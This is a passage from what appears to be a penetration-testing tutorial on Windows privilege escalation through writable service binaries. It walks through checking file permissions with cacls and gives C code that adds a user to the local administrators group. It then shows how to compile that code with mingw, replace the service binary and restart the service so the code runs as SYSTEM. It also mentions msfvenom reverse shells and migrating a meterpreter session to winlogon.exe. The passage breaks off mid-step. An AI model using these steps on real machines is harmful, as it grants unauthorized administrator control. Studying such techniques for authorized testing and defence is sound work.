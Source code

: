 Now you can process them one by one with the cacls command.

```
cacls "C:\path\to\file.exe"
```

**Look for Weakness**

What we are interested in is binaries that have been installed by the user. In the output you want to look for `BUILTIN\Users:(F)`. Or where your user/usergroup has `(F)` or `(C)` rights.

Example:

```
C:\path\to\file.exe 
BUILTIN\Users:F
BUILTIN\Power Users:C 
BUILTIN\Administrators:F 
NT AUTHORITY\SYSTEM:F
```

That means your user has write access. So you can just rename the `.exe` file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```c
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

We then compile it with mingw like this:

```bash
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

**Restart the Service**

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using `wmic` or `net` the following way:

```
wmic service NAMEOFSERVICE call startservice
```

```
net stop [service name] && net start [service name].
```

The binary should now be executed in the SYSTEM or Administrator context.

**Migrate the meterpreter shell**

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:
